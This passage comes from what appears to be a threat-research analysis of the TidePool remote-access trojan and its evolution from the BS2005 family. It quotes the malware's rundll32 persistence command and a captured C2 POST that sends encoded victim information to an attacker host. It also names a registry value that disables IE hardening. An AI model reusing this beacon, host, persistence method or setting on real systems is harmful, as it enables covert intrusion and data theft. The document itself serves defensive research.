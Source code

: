 This dropped DLL is the TidePool sample. It also launches Internet Explorer as a subprocess of the svchost service. For persistence, TidePool utilizes an ActiveSetup key, which will launch itself on boot with the following parameters:
rundll32.exe  C:\DOCUME~1\ALLUSE~1\IEHelper\mshtml.dll,,IEHelper
The TidePool sample then sends victim computer information to the C2 server, as shown in Figure 1. Once a connection is made, the sample behaves as a RAT, receiving commands from the C2.





POST http://goback.strangled.net:443/QCLDDMGXVXESLYT HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/xaml+xml, application/x-ms-xbap, application/x-ms-application, */*
Accept-Language: en-us
Content-Type: multipart/form-data; boundary=----=_Part_4e67c6a7
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET4.0C; .NET4.0E)
Host: goback.strangled.net
Content-Length: 602
Proxy-Connection: Keep-Alive
Pragma: no-cache

----=_Part_4e67c6a7
Content-Disposition: form-data; name="m1.jpg"
Content-Type: application/octet-steam

WAQAAEYBAABGAQAARgEAAAAAAAAAAAAAhv0OeukKAAAVAAAAHAEAAAUAAAABAAAAKAoAAAIAAABTAGUAcgB2AGkAYwBlACAAUABhAGMAawAgADMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAABAQACAAAAUkUJAAAAV0lOWFBSRVY1tQFpc3UFACkALAEA




12345678910111213141516

POST http://goback.strangled.net:443/QCLDDMGXVXESLYT HTTP/1.1Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/xaml+xml, application/x-ms-xbap, application/x-ms-application, */*Accept-Language: en-usContent-Type: multipart/form-data; boundary=----=_Part_4e67c6a7Accept-Encoding: gzip, deflateUser-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET4.0C; .NET4.0E)Host: goback.strangled.netContent-Length: 602Proxy-Connection: Keep-AlivePragma: no-cache ----=_Part_4e67c6a7Content-Disposition: form-data; name="m1.jpg"Content-Type: application/octet-steam WAQAAEYBAABGAQAARgEAAAAAAAAAAAAAhv0OeukKAAAVAAAAHAEAAAUAAAABAAAAKAoAAAIAAABTAGUAcgB2AGkAYwBlACAAUABhAGMAawAgADMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAABAQACAAAAUkUJAAAAV0lOWFBSRVY1tQFpc3UFACkALAEA






Figure 1. The Base64 encoded data contains information about the victim’s service pack level, the current user, and the NETBIOS name of the victim system.
The Evolution From BS2005 to TidePool
During our initial triage of the TidePool samples in AutoFocus, we noticed Windows Registry modifications that by themselves were not unique, but when viewed together were used by multiple malware families. One of these families is the "BS2005" malware family used by the Ke3chang actor. This motivated us to dig deeper, since we had not seen any public reporting on them since 2013. From this analysis, Unit 42 compared the code bases of the new malware family, and the BS2005 malware samples. Based on our analysis we believe this new malware, which we are calling TidePool, is an evolution of the BS2005 malware family used by the Ke3chang actor.
Unit 42 has discovered 11 similar registry modifications that both TidePool and BS2005 employ. The registry setting that TidePool and BS2005 focuses on is:
Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\IEHarden -> 0